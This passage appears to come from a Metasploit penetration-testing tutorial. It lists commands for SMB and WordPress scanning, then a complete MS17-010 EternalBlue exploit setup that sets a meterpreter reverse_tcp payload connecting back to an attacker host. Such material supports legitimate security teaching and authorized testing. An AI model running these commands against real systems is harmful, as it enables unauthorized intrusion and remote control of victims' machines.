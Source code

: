 ## Vulnerability Assessment

### Vulnerability Scanning:
```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.1.0/24
run
```

### Web Application Scanning:
```
use auxiliary/scanner/http/wordpress_scanner
set RHOSTS 192.168.1.100
set TARGETURI /blog/
run
```

### Finding Exploitable Services:
```
services -S http -R  # Find HTTP services and set as RHOSTS
```

### Analyzing Scan Results:
```
vulns                # List discovered vulnerabilities
```

## Exploitation

### Basic Exploitation Process:
1. Find a suitable exploit
2. Configure it correctly
3. Execute and gain access

### Finding Exploits:
```
search type:exploit platform:windows ms17-010
```

### Exploiting MS17-010 (EternalBlue) Example:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
exploit
```

### Payload Types:
- **Singles**: Self-contained payloads
- **Stagers**: Load a larger payload in stages
- **Staged**: Full payload delivered in stages
